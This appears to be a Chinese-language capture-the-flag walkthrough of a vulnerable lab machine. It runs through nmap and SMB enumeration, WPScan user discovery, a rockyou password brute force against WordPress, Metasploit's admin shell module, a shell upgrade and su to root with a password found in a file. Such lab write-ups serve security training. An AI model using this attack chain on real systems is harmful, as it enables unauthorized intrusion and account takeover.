[TOC]

## 网卡配置

1.长按shift，再按e

2.将ro修改为rw single init=/bin/bash

3.先查看本地ip（ip addr），再根据ip地址修改/etc/network/interfaces文件

4.命令/etc/init.d/networking start,这时就有IP了

5.重启靶机，不然扫不出来端口

## 信息收集

```
nmap --min-rate 10000 -p- 192.168.174.154
```

得到了22，53，80，110，139，143，445端口

```
nmap -sT -sC -sV -O -p22,53,80,110,139,143,445 192.168.174.154 -oA /nmapscan/tcp
```

```
nmap -sU --min-rate 10000 --top-ports=100 192.168.174.154 -oA /nmapscan/udp
```

```
nmap --script=vuln -p22,53,80,110,139,143,445 192.168.174.154 -oA /nmapscan/vuln
```

(这里只展示有用的信息)



初步判断80，139，445端口是首要考虑目标

其中139和445都指向了samba协议，先从这里入手

## 渗透

### Samba协议

```
smbmap -H 192.168.174.154
```

smbmap解决samba协议时先用来枚举smb共享以及文件列表



（其实到这差不多可以推测出没有关键信息，但这类靶机做的少，还是按流程来）

```
enum4linux -a 192.168.174.154
```

enum4linux在smbmap后使用，其实二者作用相似，后者的信息收集能力更强，利于详细查看



也没什么关键信息

```
smbclient -L //192.168.174.154
```

想尝试一下是否能以anonymous登录，可惜不能

### 分析网页（80端口）



一个配置页面，源代码也没有重要信息

```
gobuster dir -u "http://192.168.174.154" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip
```

爆破出两个文件，分别是info.php和wordpress

接下来重点分析wordpress

### Wordpress

#### WordPress 基础架构

WordPress 的核心由三部分组成：

- **核心文件**：`wp-admin`、`wp-includes`、根目录下的 `wp-*.php`。
- **主题**：`wp-content/themes/`，控制外观。
- **插件**：`wp-content/plugins/`，扩展功能。
- **数据库**：MySQL/MariaDB，存储文章、用户、配置。
- **配置文件**：`wp-config.php`，包含数据库凭据、密钥盐值、表前缀。

#### **权限模型**：

- 用户角色从低到高：订阅者、贡献者、作者、编辑、管理员。
- 管理员可安装插件/主题、编辑文件、管理用户，甚至可以执行任意 PHP 代码（通过主题/插件编辑器）。

#### **关键文件目录（渗透重点）**：

- `/wp-config.php`：数据库密码、表前缀、安全密钥。

- `/wp-content/uploads/`：用户上传目录，常被用于写 Webshell。

- `/wp-admin/`：后台入口，核心功能受保护。

- `/xmlrpc.php`：传统 XML-RPC 接口，暴力破解和 DDoS 攻击入口。

- `/wp-json/wp/v2/`：REST API 路由，用户枚举、内容泄露。

  ------

  

### WPScan

WPScan 是渗透测试中专门针对 **WordPress 站点** 的自动化扫描器，它可以快速枚举用户、插件、主题，并匹配已知漏洞数据库，是 Web 渗透中不可或缺的利器。

- **全称**：WordPress Security Scanner
- **语言**：Ruby
- **预装**：Kali Linux 已自带
- **核心功能**：
  - 枚举 WordPress 版本、主题、插件及其漏洞
  - 枚举用户列表
  - 暴力破解用户密码
  - 扫描 REST API、XMLRPC 等攻击面
  - 通过 WPVulnDB API 实时匹配已知漏洞

```
wpscan --usr http://192.168.174.154/wordpress
```



得到wordpress的版本，但并没有找到相对应的漏洞

```
wpscan --url http://192.168.174.154/wordpress -u e
```

| 分类          | 选项                                          | 说明                                                         |
| :------------ | :-------------------------------------------- | :----------------------------------------------------------- |
| **基础**      | `--url <URL>`                                 | 指定目标站点                                                 |
| **枚举**      | `-e <选项>`                                   | 指定要枚举的对象，如 `u`(用户), `p`(插件), `t`(主题), `vp`(有漏洞插件), `vt`(有漏洞主题) |
| **认证**      | `--api-token <token>`                         | 填入 WPVulnDB API Token，以获取实时漏洞数据（免费注册）      |
| **暴力破解**  | `--passwords <字典>` `--usernames <用户列表>` | 对用户密码进行爆破                                           |
| **输出**      | `-f json` `-o result.json`                    | 输出 JSON 格式，便于自动化处理                               |
| **HTTP 调整** | `--user-agent` `--cookie` `--proxy`           | 自定义 UA、Cookie、代理等                                    |
| **杂项**      | `--force`                                     | 强制扫描（即使目标返回异常）                                 |
| **调试**      | `-v`                                          | 显示详细信息                                                 |

枚举可能存在的用户



存在用户c0rrupt3d_brain

```
wpscan --url http://192.168.174.154 --usernames c0rrupt3d_brain --passwords /usr/share/wordlists/rockyou.txt
```



得到密码24992499

### Metasploit

接下来使用metasploit进入wordpress的后台

```
msfconsole
```

```
search wordpress
```



```
use 51
```

（58的wordpress_login_enum是用来验证的）



这里还有调一些参数

```
show options
set RHOST 192.168.174.154
set TARGETURI /wordpress/
set USERNAME c0rrupt3d_brain
set PASSWORD 24992499
exploit
```



标识由msf变为meterpreter，表示成功进入后台

***注意*：我们通过metasploit进入后台，但工具在进入后台的过程中创建了一些文件，在利用完这些文件后又自动删除，所以我们此时处于一个临时目录，要想正确的使用meterpreter要切换目录

```
cd /
```

所以才有上面图片的效果

```
shell
```

直接打开一个shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

(python,python2,python3都有可能，自己尝试)

得到一个功能完整的终端



先查看home目录，看看可不可以先立足一个普通用户，只有一个root3r用户，但所有文件我们都有查看权限，所以得到第一个flag，此时又发现一个.root_password_ssh.txt文件



得到密码

不知道为什么直接ssh是连不上的，不过可以在我们的伪终端里直接提权

```
su root
```



成功拿到root

这个靶机还是有点问题，我自己找到了/wordpress/wp-login.php，却不能直接登录，可能是机器问题，源码直接把地址固定了
